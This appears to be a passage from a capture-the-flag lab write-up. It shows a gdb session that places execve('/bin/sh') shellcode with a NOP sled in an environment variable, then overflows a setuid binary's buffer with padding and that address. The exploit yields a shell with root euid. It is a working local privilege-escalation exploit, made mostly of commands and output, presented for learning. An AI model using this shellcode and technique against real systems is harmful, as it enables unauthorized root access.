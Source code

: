 LANG=en_US.UTF-8
LS_COLORS=
SHELL=/bin/sh
PWD=/home/reynard
LINES=24
COLUMNS=80
(gdb) run
run
Starting program: /home/reynard/msg_root

Breakpoint 1, main (argc=1, argv=0xbffffd84) at msg_root.c:31
31	msg_root.c: No such file or directory.
(gdb) x/s *((char **)environ + 5)
x/s *((char **)environ + 5)
0xbfffff22:	 "_=PAYLOAD=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
(gdb) x/s *((char **)environ + 5) + strlen("_=PAYLOAD=")
x/s *((char **)environ + 5) + strlen("_=PAYLOAD=")
0xbfffff2c:	 "\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\353\037^\211v\b1\300\210F\a\211F\f\260\v\211\363\215N\b\215V\f̀1ۉ\330@̀\350\334\377\377\377/bin/sh"
{% endhighlight %}

Perfect, `0xbfffff2c` is the address we needed.
We can now try the buffer overflow.

We'll use 14 bytes of garbage and then the address of the variable, reversed because of the endianess of the processor.

{% highlight bash %}
(gdb) run Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
run Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
The program being debugged has been started already.
Start it from the beginning? (y or n) y
y

Starting program: /home/reynard/msg_root Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar

Breakpoint 1, main (argc=3, argv=0xbffffd54) at msg_root.c:31
31	in msg_root.c
(gdb) c
c
Continuing.
process 2672 is executing new program: /bin/dash
Error in re-setting breakpoint 1: Function "main" not defined.
$
{% endhighlight %}

Now we only need to try it in the original environment.

{% highlight bash %}
$ exit
exit
[Inferior 1 (process 2672) exited with code 0177]
(gdb) quit
quit
$ /home/reynard/msg_root Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
/home/reynard/msg_root Aa0Aa1Aa2Aa3Aa$(python -c "print('\x2c\xff\xff\xbf')") bar
$ id
id
uid=1000(anansi) gid=1000(anansi) euid=104(root) groups=106(root),50(staff),1000(anansi)
$
{% endhighlight %}
